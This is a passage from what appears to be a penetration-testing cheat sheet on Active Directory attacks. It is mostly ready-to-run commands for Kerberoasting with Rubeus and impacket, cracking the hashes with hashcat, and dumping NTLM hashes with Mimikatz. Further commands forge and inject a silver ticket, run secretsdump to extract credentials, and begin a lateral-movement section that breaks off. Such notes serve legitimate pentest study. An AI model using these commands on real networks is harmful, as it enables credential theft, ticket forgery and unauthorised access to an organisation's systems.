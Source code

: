 ### Kerberoasting

```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```

### Silver Tickets

- Obtaining hash of an SPN user using **Mimikatz**

```powershell
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```

- Obtaining Domain SID

```powershell
ps> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain   SID is "S-1-5-21-1987370270-658905905-1781884369"
```

- Forging silver ticket Ft **Mimikatz**

```bash
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user>
exit

# we can check the tickets by,
ps> klist
```

- Accessing service

```bash
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```

### Secretsdump

```bash
secretsdump.py <domain>/<user>:<password>@<IP>
```

## Lateral Movement in Active Directory

### psexec - smbexec - wmiexec - atexec

- Here we can pass the credentials or even hash, depending on what we have
